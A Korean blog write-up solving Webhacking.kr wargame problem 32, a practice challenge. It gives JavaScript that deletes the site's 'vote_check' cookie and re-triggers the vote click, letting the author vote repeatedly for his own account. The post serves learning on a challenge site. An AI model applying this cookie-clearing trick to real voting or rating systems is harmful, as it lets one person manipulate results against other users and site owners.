 ```yaml
---
layout: post
title: "Webhacking.kr 32번 문제"
description: ""
categories : ""
sub_categories : ""
date: 2017-05-11
tags: []
comments: true
share: true
---
```


32 번 문제는 150 스코어의 문제입니다.

문제를 보면, 100명의 리스트가 존재합니다.

하단에 입장에 버튼이있는데 해당 버튼을 누르면 100명의 리스트에 제 계정이 추가됩니다.  
  
이후 본인 계정에 클릭을하게되면 vote up 이 됩니다.  
이후 스코어 1점이 추가되는데, 추가 이후에 추천을 누르면 `no` 메세지와 함께 추천이 안됩니다.  
  
요소를 보니 클릭 시, 아래와 같은 이벤트가 발생합니다.  
location.href='?hit='본인 계정'

  
추천과 동시에 `vote_check` 쿠키가 하나 생성됩니다.

보아하니 쿠키로 구분하여 추천 여부를 판별하는 것 같습니다.  
  
일단 저는 아래와 같이 간단하게 스크립트를 하나 작성했습니다.  
코드의 내용은 `vote_check` 라는 쿠키를 지운 후, 추천 요청을 하는 것 입니다.  
  
특성 상, 이벤트가 발생하면 페이지가 새로 로드되기 때문에 저는 사용하고있는 크롬 확장 프로그램을 통하여 해당 스크립트를 기입해 문제를 해결
했습니다.

  

하단에 소스 코드를 기재했습니다.

코드 상 셀렉트 부분을 참고하시면

onclick^="location.href='+"'?hit=hax0r'"+'" 이라 되어있는데, 여기서 hax0r 을 보인 계정으로
치환하시면 됩니다.

hax0r 은 제 계정이에여.

  

![](/assets/images/posts/743/2463304A591415CB017CFE.JPEG)

  

    var delCookie = function(name) {    document.cookie = name + '=;expires=Thu, 01 Jan 1970 00:00:01 GMT;';};/* Node Select 를 위해 Jquery 비동기 로드 */(function () {    function loadScript(url, callback) {        var script = document.createElement("script")        script.type = "text/javascript";        if (script.readyState) { //IE            script.onreadystatechange = function () {                if (script.readyState == "loaded" || script.readyState == "complete") {                    script.onreadystatechange = null;                    callback();                }            };        } else { //Others            script.onload = function () {                callback();            };        }        script.src = url;        document.getElementsByTagName("head")[0].appendChild(script);    }    loadScript("https://ajax.googleapis.com/ajax/libs/jquery/1.6.1/jquery.min.js", function () {             console.log('jquery loaded');            /* 계정 vote */var voteUpMe = function(e) {  delCookie('vote_check');  $('tr[onclick^="location.href='+"'?hit=hax0r'"+'"]').trigger('click');}     });})();

  

